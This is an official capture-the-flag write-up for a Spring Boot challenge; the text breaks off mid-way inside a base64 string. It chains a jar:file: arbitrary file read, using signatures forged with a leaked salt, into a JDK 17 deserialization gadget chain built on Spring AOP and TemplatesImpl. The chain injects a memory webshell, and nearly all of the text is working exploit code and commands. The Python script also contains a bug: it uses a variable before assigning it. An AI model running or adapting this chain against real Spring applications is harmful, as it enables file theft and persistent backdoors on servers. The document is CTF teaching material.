








# WriteUp (Official)

## Vulnerability Analysis

Upon opening the website's homepage, an arbitrary file read vulnerability is discovered. Although the `file://` protocol is banned, the `jar://` protocol is not. Based on the hints provided, the `app.jar` file is located at `/app/app.jar`.



By attempting to read a file using `jar:file:/app/app.jar!/`, the resulting error message reveals the path to the `PreviewController` class within the JAR file.



A script is written to read the files contained within the JAR.

```python
import requests
import base64
import json
import argparse
import hashlib
import time
from bs4 import BeautifulSoup
import sys
import os

# --- Configuration (can be overridden by command line args) ---
TARGET_URL = "http://localhost:8080/api/preview"
SALT = "S4lt_B4e_Is_O1d_Sch00l_But_Java_Is_Eternal"
JAR_PATH = "/app/app.jar"

def generate_signature(url, timestamp, salt):
    data_to_sign = f"{url}{timestamp}{salt}"
    return hashlib.md5(data_to_sign.encode('utf-8')).hexdigest()

def exploit(target_url, file_to_read, jar_path, salt):
    print(f"[*] Target URL: {target_url}")
    print(f"[*] File to read on server: {file_to_read}")
    print(f"[*] Using JAR path: {jar_path}")
    print(f"[*] Using SALT: {salt[:10]}...")

    attack_url = f"jar:file:{jar_path}!{file_to_read}"
    timestamp = int(time.time() * 1000)
    signature = generate_signature(attack_url, timestamp, salt)
    print(f"[*] Generated signature: {signature}")

    payload = {
        "url": attack_url,
        "timestamp": timestamp,
        "signature": signature
    }
    json_payload_str = json.dumps(payload)
    print(f"[*] Constructed JSON Payload: \n{json.dumps(payload, indent=2)}")
    encoded_payload = base64.b64encode(json_payload_str.encode('utf-8')).decode('utf-8')

    headers = {"Content-Type": "text/plain;charset=UTF-8"}
    try:
        print("\n[*] Sending request to server...")
        response = requests.post(target_url, data=encoded_payload, headers=headers, timeout=15)
        response.raise_for_status()
    except requests.exceptions.RequestException as e:
        print(f"\n[!] Request failed: {e}")
        print(response.text)
        sys.exit(1)

    print("[*] Server responded successfully.")
    
    soup = BeautifulSoup(response.text, 'html.parser')
    
    # --- START OF MODIFIED SECTION ---
    # The new HTML structure puts the result in a <textarea> inside a <div> with class 'alert-success'.
    base64_content = None
    success_div = soup.find('div', class_='alert-success')
    if success_div:
        textarea = success_div.find('textarea')
        if textarea:
            base64_content = textarea.get_text(strip=True)
            print("[*] Successfully extracted Base64 content from <textarea>.")
        else:
            print("[!] Found a success alert div, but no <textarea> inside it.")
    # --- END OF MODIFIED SECTION ---

    if not base64_content:
        # Fallback to check for an error message
        error_div = soup.find('div', class_='alert-danger')
        if error_div:
            error_message = error_div.get_text(strip=True)
            print(f"\n[!] Server returned an error: {error_message}")
        else:
            print("\n[!] Could not find result content in the response.")
            print("[!] Debugging - Full response HTML:")
            print(response.text)
        return None
        
    try:
        decoded_content = base64.b64decode(base64_content).decode('utf-8', errors='ignore')
        
        # --- 新增的自动保存逻辑 (文本文件) ---
        # 从完整路径中提取基本文件名 (e.g., /BOOT-INF/classes/application.properties -> application.properties)
        output_filename = os.path.basename(file_to_read)
        
        # 防止文件名为空 (如果读取的是 "/")
        if not output_filename:
            output_filename = "downloaded_root.txt"

        with open(output_filename, 'wb') as f: # 使用 'wb' 模式写入二进制
            f.write(decoded_bytes)
        print(f"[+] Text content automatically saved to: {output_filename}")
        # --- 结束新增逻辑 ---
        
        return decoded_content
    except Exception as e:
        # 如果UTF-8解码失败，则认为是二进制数据
        print(f"[!] Failed to decode as text: {e}. Assuming binary data.")
        decoded_bytes = base64.b64decode(base64_content)
        
        # --- 新增的自动保存逻辑 (二进制文件) ---
        output_filename = os.path.basename(file_to_read)

        if not output_filename:
            output_filename = "downloaded_root.bin"

        with open(output_filename, 'wb') as f: # 使用 'wb' 模式写入二进制
            f.write(decoded_bytes)
        print(f"[+] Binary content automatically saved to: {output_filename}")
        # --- 结束新增逻辑 ---
        
        return decoded_bytes

# The rest of the script (main block) remains the same
if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Exploit for NetWatcher LFI via jar:file:// protocol with signature bypass.")
    parser.add_argument("file", help="Absolute path of the file to read inside the JAR (e.g., /src/main/java/org/ctf/netwatcher/controller/AdminController.java)")
    parser.add_argument("--url", default=TARGET_URL, help=f"The target API endpoint (default: {TARGET_URL})")
    parser.add_argument("--jar-path", default=JAR_PATH, help=f"Absolute path to the JAR on the server (default: {JAR_PATH})")
    parser.add_argument("--salt", default=SALT, help="The secret salt for signature generation.")
    parser.add_argument("-o", "--output", help="Output file to save the content.")

    args = parser.parse_args()
    
    file_content = exploit(args.url, args.file, args.jar_path, args.salt)
    
    if file_content:
        print("\n" + "="*50)
        print("          FILE CONTENT          ")
        print("="*50)
        
        if isinstance(file_content, bytes):
            print("[Content is binary data]")
            if args.output:
                 try:
                    with open(args.output, 'wb') as f: f.write(file_content)
                    print(f"\n[+] Binary content successfully saved to {args.output}")
                 except Exception as e: print(f"\n[!] Error saving binary file: {e}")
            else:
                print("[!] Rerun with -o <filename> to save binary content.")
        else:
            print(file_content)
            print("="*50)
            if args.output:
                try:
                    with open(args.output, 'w', encoding='utf-8') as f: f.write(file_content)
                    print(f"\n[+] Content successfully saved to {args.output}")
                except Exception as e: print(f"\n[!] Error saving text file: {e}")
```

```bash
python exp.py --url http://localhost:12338/api/preview /BOOT-INF/classes/org/ctf/netwatcher/controller/PreviewController.class 
python exp.py --url http://localhost:12338/api/preview /META-INF/maven/org.ctf/netwatcher/pom.xml
python exp.py --url http://localhost:12338/api/preview /BOOT-INF/classes/application.properties
```

Based on the annotations in the source code, an `AdminController` route exists.


```bash
python exp.py --url http://localhost:12338/api/preview /BOOT-INF/classes/org/ctf/netwatcher/controller/AdminController.class
```


Next, we read the inner class `AdminController$SecureObjectInputStream`.

```bash
 python exp.py --url http://localhost:12338/api/preview '/BOOT-INF/classes/org/ctf/netwatcher/controller/AdminController$SecureObjectInputStream.class'
```


The `pom.xml` file shows a dependency on `springboot-aop`.

```xml
        <dependency>
            <groupId>org.aspectj</groupId>
            <artifactId>aspectjweaver</artifactId>
            <version>1.9.8</version>
        </dependency>
```

We write a Proof of Concept (PoC) to bypass JDK 17 restrictions, load `TemplatesImpl`, and inject a memory shell.

```java
package org.example.springbootdestest.poc;

import org.example.springbootdestest.poc.UnSafeTools;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import javassist.CtNewConstructor;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.DefaultAdvisorChainFactory;
import org.springframework.aop.support.DefaultIntroductionAdvisor;
import org.springframework.aop.target.SingletonTargetSource;
import sun.misc.Unsafe;

import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.Advisor;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.framework.DefaultAdvisorChainFactory;
import org.springframework.aop.support.DefaultIntroductionAdvisor;

import javax.swing.event.EventListenerList;
import javax.swing.undo.CompoundEdit;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.lang.reflect.*;
import java.util.ArrayList;
import java.util.List;
import java.util.Map;
import java.util.Vector;

public class SpringBootAOPWithJDK17 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();

        ClassLoader appClassLoader = ClassLoader.getSystemClassLoader();
        pool.insertClassPath(new javassist.LoaderClassPath(appClassLoader));
//
//        ctClass.addConstructor(
//                CtNewConstructor.make("public Calc() { Runtime.getRuntime().exec(\"touch /tmp/pwn-jetty\"); }", ctClass)
//        );
        CtClass ctClass = pool.get("mem.SpringRequestMappingMemshell");
        CtClass ctClass1 = pool.makeClass("Calc");

        byte[] bytecode = ctClass.toBytecode();
        byte[] bytecode1 = ctClass1.toBytecode();

        Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        patchModule(SpringBootAOPWithJDK17.class, aClass);
        Object templates = ReflectTools.createWithoutConstructor(aClass);
        UnSafeTools.setObject(templates, aClass.getDeclaredField("_name"), "sk");
        UnSafeTools.setObject(templates, aClass.getDeclaredField("_sdom"), new ThreadLocal());
//        UnSafeTools.setObject(templates, aClass.getDeclaredField("_tfactory"), UnSafeTools.newClass(Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl")));
        UnSafeTools.setObject(templates, aClass.getDeclaredField("_bytecodes"), new byte[][]{bytecode, bytecode1});
//        UnSafeTools.setObject(templates, aClass.getDeclaredField("_bytecodes"), new byte[][] {TomcatEcho.testCalc()});

        SingletonAspectInstanceFactory singletonAspectInstanceFactory = new SingletonAspectInstanceFactory(templates);
        Class<?> bClass = Class.forName("org.springframework.aop.aspectj.AspectJAroundAdvice");

        patchModule(SpringBootAOPWithJDK17.class, bClass);
        AspectJAroundAdvice aspectJAroundAdvice = ReflectTools.createWithoutConstructor(AspectJAroundAdvice.class);
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"aspectInstanceFactory"), singletonAspectInstanceFactory);
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"declaringClass"), Templates.class);
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"methodName"), "getOutputProperties");
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"parameterTypes"), new Class[0]);
//        Method targetMethod = Reflections.getMethod(TemplatesImpl.class,"newTransformer",new Class[0]);
//        UnSafeTools.setObject(aspectJAroundAdvice,"aspectJAdviceMethod",targetMethod);

        Class<?> cClass = Class.forName("org.springframework.aop.aspectj.AspectJExpressionPointcut");
        patchModule(SpringBootAOPWithJDK17.class, cClass);
        AspectJExpressionPointcut aspectJExpressionPointcut = (AspectJExpressionPointcut) ReflectTools.createWithoutConstructor(cClass);
        UnSafeTools.setObject(aspectJAroundAdvice, getField(bClass,"pointcut"), aspectJExpressionPointcut);
        UnSafeTools.setInt(aspectJAroundAdvice, getField(bClass,"joinPointArgumentIndex"), -1);
        UnSafeTools.setInt(aspectJAroundAdvice, getField(bClass,"joinPointStaticPartArgumentIndex"), -1);


        Class<?> jdkDynamicAopProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        patchModule(SpringBootAOPWithJDK17.class, jdkDynamicAopProxyClass);
        Constructor<?> proxyConstructor = jdkDynamicAopProxyClass.getDeclaredConstructor(AdvisedSupport.class);
        proxyConstructor.setAccessible(true);
        AdvisedSupport advisedSupport1 = new AdvisedSupport();
        advisedSupport1.setTarget(aspectJAroundAdvice); // setTarget 内部会创建一个 SingletonTargetSource

        // 1.3. 通过反射调用构造函数，创建 JdkDynamicAopProxy 实例
        InvocationHandler jdkDynamicAopProxy1 = (InvocationHandler) proxyConstructor.newInstance(advisedSupport1);

        // 2. 创建第一个动态代理 proxy1，它实现了 Advisor 和 MethodInterceptor 接口
        // 原始代码: Object proxy1 = Proxy.makeGadget(jdkDynamicAopProxy1, Advisor.class, MethodInterceptor.class);

        // 使用标准的 java.lang.reflect.Proxy.newProxyInstance 方法
        Object proxy1 = Proxy.newProxyInstance(
                SpringBootAOPWithJDK17.class.getClassLoader(), // 当前类的 ClassLoader
                new Class[]{Advisor.class, MethodInterceptor.class}, // 需要代理的接口列表
                jdkDynamicAopProxy1 // InvocationHandler
        );

        // 3. 创建 Advisor，并将 proxy1 作为 Advice 传入
        // 这部分逻辑与原始代码相同，因为不涉及复杂的反射
        Advisor advisor = new DefaultIntroductionAdvisor((Advice) proxy1);
        List<Advisor> advisors = new ArrayList<>();
        advisors.add(advisor);

        // 4. 创建第二个 AdvisedSupport 实例，并用反射设置其私有字段
        AdvisedSupport advisedSupport2 = new AdvisedSupport();
        DefaultAdvisorChainFactory advisorChainFactory = new DefaultAdvisorChainFactory();

        // 4.1. 使用反射设置 'advisors' 字段
        // 原始代码: Reflections.setFieldValue(advisedSupport,"advisors",advisors);
        // 注意：'advisors' 字段定义在 AdvisedSupport 的父类 ProxyConfig 中
        UnSafeTools.setObject(advisedSupport2,  getField(advisedSupport2.getClass(),"advisors"), advisors);
        UnSafeTools.setObject(advisedSupport2,  getField(advisedSupport2.getClass(),"advisorChainFactory"), advisorChainFactory);

        // 5. 创建第二个 JdkDynamicAopProxy 实例
        // 原始代码: InvocationHandler jdkDynamicAopProxy2 = (InvocationHandler) JdkDynamicAopProxyNode.makeGadget("ape1ron", advisedSupport);

        // 5.1. 为第二个 AdvisedSupport 实例设置一个目标对象
        advisedSupport2.setTargetSource(new SingletonTargetSource("ape1ron")); // 目标对象可以是任意对象，这里用一个字符串

        // 5.2. 复用之前获取的构造函数，创建第二个 JdkDynamicAopProxy 实例
        InvocationHandler jdkDynamicAopProxy2 = (InvocationHandler) proxyConstructor.newInstance(advisedSupport2);

        // 6. 创建第二个动态代理 proxy2，它实现了 Map 接口
        // 原始代码: Object proxy2 = Proxy.makeGadget(jdkDynamicAopProxy2, Map.class);

        Object proxy2 = Proxy.newProxyInstance(
                Proxy.class.getClassLoader(),
                new Class[]{Map.class}, // 代理 Map 接口
                jdkDynamicAopProxy2
        );


        EventListenerList list2 = new EventListenerList();
        UndoManager manager = new UndoManager();
        Vector vector = (Vector) UnSafeTools.getObject(manager, CompoundEdit.class.getDeclaredField("edits"));
        vector.add(proxy2);
        UnSafeTools.setObject(list2, EventListenerList.class.getDeclaredField("listenerList"), new Object[]{InternalError.class, manager});
//        proxy.toString();
        System.out.printf(SerialTools.base64Serial(list2) + "\n");

        SerialTools.fileSerial(list2);
        SerialTools.fileDeSerial();
    }

    private static void patchModule(Class clazz, Class goalclass) {
        try {
            Class UnsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = UnsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);
            Object ObjectModule = Class.class.getMethod("getModule").invoke(goalclass);
            Class currentClass = clazz;
            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, ObjectModule);
        } catch (Exception e) {
        }
    }
    public static Field getField(Class clazz,String fieldName) throws NoSuchFieldException {

        while (true){
            Field[] fields = clazz.getDeclaredFields();
            for(Field field:fields){
                if(field.getName().equals(fieldName)){
                    return field;
                }
            }
            if(clazz == Object.class){
                break;
            }
            clazz = clazz.getSuperclass();
        }
        throw new NoSuchFieldException(fieldName);
    }
    public static Object getFieldValue(Object obj,String filedName) throws NoSuchFieldException, IllegalAccessException {
        Field field = getField(obj.getClass(),filedName);
        field.setAccessible(true);
        return field.get(obj);
    }

    public static void setFieldValue(Object obj,String filedName,Object value) throws NoSuchFieldException, IllegalAccessException {
        Field field = getField(obj.getClass(),filedName);
        field.setAccessible(true);
        field.set(obj,value);
    }

}
```

```java
package mem;

import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import sun.misc.Unsafe;

import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.Scanner;

public class SpringRequestMappingMemshell {
    String className = "org.apache.shiro.coyote.ser.std.ClassSerializer7ac151d6ebb64cfca2cd0f4f646adbf6";
    Class<?> clazz = null;

    static {
        new SpringRequestMappingMemshell();
    }

    public SpringRequestMappingMemshell() {
        try {
            Class unsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class cls = SpringRequestMappingMemshell.class;
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));

            unsafe.getAndSetObject(cls, offset, module);

            clazz = Class.forName(className, false, Thread.currentThread().getContextClassLoader());
            System.out.println("Class '" + className + "' already loaded. Skipping definition.");
        } catch (ClassNotFoundException e) {
            try {

                Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
                defineClass.setAccessible(true);
                byte[] bytecode = Base64.getDecoder().decode("yv66vgAAADIBhAEAaG9yZy9hcGFjaGUvY29tbW9tcy9iZWFudXRpbHMvY295b3RlL2Rlc2VyaWFsaXphdGlvbi9zdGQvRW51bURlc2VyaWFsaXplcjAxZmE3MjQwNGYyODQwYmVhNzgwMWIzOTc0NjBjYzdlBwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEADWdldFVybFBhdHRlcm4BABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEAAi8qCAAHAQAMZ2V0Q2xhc3NOYW1lAQBPb3JnLmFwYWNoZS5zaGlyby5jb3lvdGUuc2VyLnN0ZC5DbGFzc1NlcmlhbGl6ZXI3YWMxNTFkNmViYjY0Y2ZjYTJjZDBmNGY2NDZhZGJmNggACgEAD2dldEJhc2U2NFN0cmluZwEAE2phdmEvaW8vSU9FeGNlcHRpb24HAA0BABBqYXZhL2xhbmcvU3RyaW5nBwAPARC4SDRzSUFBQUFBQUFBQUsxWEMzeGJWUm4vbnlUTlRkUHMxV3pkc282OTJDTjlwaHRkdDNVYnJPMEtLMnM2dHU1Qk53UnYwcHMyVzVxa3lVMjNqcWNLT3ZHSjRnUEZxVk9jRDhTeFFib3lnZmtDQlJFUkZFVEU5L3VCcUtnb1d2L24zaVJObTNiYjc2ZS9wdmVjZTg3My9KL3YrODUzSC92UEF3OEJXQ0UyQ1d5TkpYcDhhbHdOOW1xK1pHODRFZk1GWTRNeG5TOWF3cGZVdTMwdEVUV1o3TlFTWVRVU1BxUWxWcXZCRmF0V2REZG9nVUJEZlRBVVZGY0d1K3RDOWFHRytnYTFPeEJxVUNBRVp1MVRCMVJmUkkzMm1PenRNYlZiU3lpd0NwVHRVL2VyQ1YyVjhnY2ltdTY3TkJ6UjVWNlJnSDE5T0JyV0x4YXdlaXQyQ2RoYVl0M